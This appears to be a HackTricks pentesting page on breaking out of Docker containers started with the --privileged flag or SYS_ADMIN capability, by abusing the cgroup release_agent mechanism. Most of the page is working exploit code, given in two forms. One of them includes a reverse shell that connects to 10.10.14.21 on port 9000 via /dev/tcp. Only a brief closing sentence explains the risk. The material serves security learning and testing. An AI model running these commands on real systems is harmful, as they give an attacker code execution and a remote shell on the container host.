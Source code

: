 

<details><summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary></details>


# `--privileged` flag


```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash
 
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```



```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```


 The `--privileged` flag introduces significant security concerns, and the exploit relies on launching a docker container with it enabled. When using this flag, containers have full access to all devices and lack restrictions from seccomp, AppArmor, and Linux capabilities.
